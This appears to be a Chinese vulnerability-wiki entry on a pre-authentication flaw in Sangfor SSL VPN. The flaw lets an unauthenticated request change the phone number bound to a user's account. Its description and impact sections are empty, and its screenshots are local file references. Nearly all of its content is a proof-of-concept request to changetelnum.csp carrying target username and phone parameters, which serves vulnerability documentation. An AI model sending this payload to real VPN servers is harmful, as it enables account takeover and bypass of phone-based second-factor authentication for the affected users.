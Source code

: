 深信服 SSL VPN - Pre Auth 修改绑定手机
======================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

老版本(M7.6.1)代码放上，看不懂的直接看 POC
吧；新版本的没绕成功还在审，所以不确定是不是这个

![1.png](/Users/aresx/Documents/VulWiki/.resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId24.png)

![2.png](/Users/aresx/Documents/VulWiki/.resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId25.png)

![3.png](/Users/aresx/Documents/VulWiki/.resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId26.png)

### POC

    https://www.0-sec.org/por/changetelnum.csp?apiversion=1

    newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

参考链接
--------

> https://blog.sari3l.com/
